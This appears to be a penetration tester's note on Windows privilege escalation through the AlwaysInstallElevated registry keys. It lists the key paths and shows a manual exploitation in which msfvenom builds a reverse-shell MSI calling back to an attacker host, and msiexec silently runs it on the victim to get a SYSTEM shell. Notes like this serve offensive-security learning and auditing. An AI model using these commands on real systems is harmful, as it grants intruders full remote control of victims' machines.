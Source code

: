 
### Overview
---
``AlwaysInstallElevated`` registry keys guarantee that MSI files always execute as SYSTEM (even if an unprivileged user runs them).

**Key Paths:**
```
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

### Exploitation Example
---
``Invoke-PrivEscAudit`` from ``PowerUp.ps1`` can output potential exploitation vectors, including ``AlwaysInstallElevated``.

>[!info]
>``PowerUp.ps1`` provides scripts to exploit this, but this example will do it manually.

![[Pasted image 20230306233035.png]]

**Manual Exploitation:**
- Create a reverse shell MSI to execute on the victim.
```shell
# Create Reverse Shell MSI
msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker_ip> LPORT=<listening_port> -f msi > powershell_payload.msi

### Move binary to victim however you want ###
```

```powershell
### On Victim ###
# Execute MSI to establish SYSTEM level reverse shell
msiexec /q /i powershell_payload.msi
```
